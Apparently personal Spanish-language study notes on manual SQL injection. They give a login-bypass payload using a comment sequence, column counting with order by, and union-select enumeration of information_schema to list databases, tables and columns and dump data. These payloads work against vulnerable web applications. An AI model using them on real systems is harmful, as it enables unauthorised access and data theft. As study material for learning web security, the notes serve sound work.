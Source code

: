 Con este comando

```
select ... from ... where username='admin'-- -' 
```

Se puede saltar el login bypass porque omitimos la contraseña al comentarla.

Para averiguar el numero de columnas de una tabla (cuando es error based -- sale error en la pagina)

```
select ... from ... where username = '...' order by X-- -;
```
(Nos tenemos que basar en columnas existentes).

Una vez que conocemos el numero de columnas, podemos jugar con el union select.

```
'union select .... , .... , ....
```

Demas comandos:

```
-database() --> ver BD que estamos usando

-union select schema_name from information_schema.schemata --> cuales BBDD existen. 

-group_concat(schema_name)

-limit 0,1 -->limitar informacion 

-user() -->ver usuario en uso

-select ... from ... information_schema.tables where table_schema = 'Nombre_tabla.schemata'-- - --> Ver las tablas de nombre_tabla.
```

# Anotaciones

-information_schema es la BBDD que viene por defecto en MariaDB y MySQL.
-schemata es una tabla, dentro de la cual está schema_name que es una columna que almacena los nombres de las bases de datos.
-tables es una tabla que almacena los nombres .
-Colums es una tabla que almacena el nombre de las columnas de las tablas. 

```
-information_schema --> es una BBDD
-schemata, tables, colums --> son tablas dentro de la BBDD. 
-Tables almacena el nombre de las tablas de todas las BBDD.
-schema_name --> columna dentro de tabla schemata. Aqui están los nombres de las diferentes bases de datos del sistema. 
-concat(x,y,z)
```

# Orden enumeracion 

* numero de columnas mediante `order by X-- -` 
* Buscamos todas las bases de datos dentro de information_schema en su tabla schemata.
	```
	union select schema_name from information_schema.schemata
	-- -
	```
* Buscamos todas las tablas de cierta BBDD que nos interese en information_schema, dentro de Tables, que contiene el NOMBRE de las tablas pero ADEMÁS poniendo como requisito que las tablas sean de BBDD de nuestro interés usando `WHERE`. 
	```
	union select table_name from information_schema.tables 
    where table_schema="BBDD"-- -

	con esto sacamos los nombres de las tablas de X BBDD
	```
* Una vez tenemos el nombre de las tablas, buscamos el nombre de las columnas que nos interesen dentro de la tabla COLUMNS de la BBDD information_schema, poniendo como requisito que las tablas sean de BBDD de nuestro interés usando `WHERE`. 
	```
	union select column_name from information_schema.columns where table_schema="BBDD" and table_name="NOMBRE TABLA"-- -

	Con esto sacamos las columnas de X BBDD
	```
* Una vez tenemos todos los datos, ya podemos buscar dentro de la BBDD que nos interese, refiriendonos concretamente en una tabla. 
```
union select [columna] from BBDD.tabla-- -
```


